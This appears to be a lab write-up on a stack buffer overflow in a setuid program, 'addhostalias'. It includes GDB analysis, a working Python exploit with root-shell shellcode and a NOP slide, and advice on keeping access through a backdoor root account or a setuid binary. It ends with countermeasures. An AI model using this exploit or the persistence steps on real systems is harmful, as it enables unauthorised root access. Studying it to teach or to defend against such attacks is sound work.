


# 1 - Gaining root access

For this first part, we will gain root access through a buffer overflow
vulnerability and a malicious shellcode. With a buffer overflow, a
string can overwrite some memory and become executable. While there
exists countermeasures, they aren't implemented here, hence our attack.

## 1.1 - Memory layout and vulnerability

When we look at the source code of `addhostalias.c`, the vulnerability
opportunity is very clear:

```c
void add_alias(char *ip, char *hostname, char *alias) {
    char formatbuffer[256];
    // ...
    sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
    // fopen
    // ...
}

int main(int argc, char *argv[]) {
    // ...
    add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
    // ...
}
```

We're trying to insert in `formatbuffer` strings without checking their
length. The main function simply reads its arguments and forwards it to
`add_alias`, which will insert it in its buffer. The thing is, what if
our string become too long? If it hits 256 characters or more, we will
exit our buffer and write our string on top of our memory.


## 1.2 - Create the exploit

What we want to do is override the return address to jump back in the
buffer and execute the string as if it was some code.

Using GDB, we can verify that the stack is override. First, we run
`gdb /usr/bin/addhostalias`, then `break fopen` since it is the next
function call after our buffer overflow. Next,
```run `python -c "print '3'*250"` D U```. The array is filled using the
first variable, a tab, the second variable, a tab, the third variable,
a new line and a null byte.
`3` encoded in ASCII is 0x33 in hexadecimal, `D` is 0x44 and `U` 0x55,
so looking at the stack content with `x/100x $sp` we know that the array
should end with `... 33 33 33 09 44 09 55 0a 00`.


Using the memory layout above, we can see that the saved frame
pointer is 0xbffffbac and the the return address 0x08048656. This is
also reported by GDB using `info frame`.




Using these informations, it means that we need to change the value at
0xbffffb90 from 0x08048656 (our previous return value) to somewhere
inside our buffer, like 0xbffffaa0.

Now, if we input 256 characters, plus 4 characters for the frame
pointer, we should be able to overwrite the return address to return in
the stack and execute our shellcode as if it was "real" code.

We will use a NOP slide to aim wide and then a payload, the shellcode.
This shellcode will set the real UID and the real group ID from the
EUID, effectively putting ourselves as root. This only works because the
sticky bit is enabled for this file; any program without the sticky bit
will (obviously) not be able to switch to root. Without these
instructions, the shell open would have the same rights as the user who
executed it, i.e. not root, which isn't really interresting.

The following script will send the right shellcode for us, used like
this: `addhostalias $(python exploit.py)`

```python
shellcode = ("\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80"
            +"\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0"
            +"\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80"
            +"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68"
            +"\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
            +"\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90"
            +"\x90\x90\x90\x90\x90\x90\x90\x90\x90")

nopSlide = "\x90" * (256 + 4 - len(shellcode))
newAddr = "\xa0\xfa\xff\xbf"

print nopSlide + shellcode + newAddr, "3", "D"
```

And, with it, we can finally get root access.


The return address has been override to the stack.



## 1.3 - Permanent root access

Althouh this root access is limited in time, we can easily make it
permanent with a backdoor. With root access, you can create a new user
with root access and a known password and expose a SSH access.

It is also possible to create a program with the set-user-ID bit. With
this flag enabled, the program will run as root even if it is started as
a regular user. So, even if this buffer overflow get patched, you still
have access to the created program with the set-user-ID bit and can
still possibly open a root terminal and abuse the system from the
inside, without having any root permission whatsoever.

# 2 - Countermeasures

There are several countermeasures to avoid these buffer overflows.

At a language level, some languages are less affected than other by
buffer overflows. Higher-level languages (Java, C#, Python...) usually
checks for out-of-bounds access, thus avoiding buffer overflows as
opposed to lower-level languages (mainly C and C++). It should be noted
though that modern low-level languages like Rust tends to think more
carefully about buffer overflows using "smarter" memory management.

If C / C++ still need to be used, most of the vulnerable standard
library functions have a safer equivalent: `fgets` instead of `gets`,
`strcpy_s` or `strlcpy` over `strcpy`, etc.

Programs can also be compiled with constant values that shouldn't
normally be override. These constants are called canaries, and while
they don't technically prevent buffer overflows they still make it
harder, because now you need to aim more precisely and override this
canary with the right value.

Obfuscation can also be used at compile-time by shuffling around
variable declaration, thus making the original source code less useful
for stack overflow documentation purpose.

On an OS point of view, ASLR can be used to randomize the address space.
The stack can also be marked as non executable with the NX bit. With
these two features, buffer overflows become really limited.Still, return
to libc attacks can be achieved, by jumping back to other legitimate
functions.
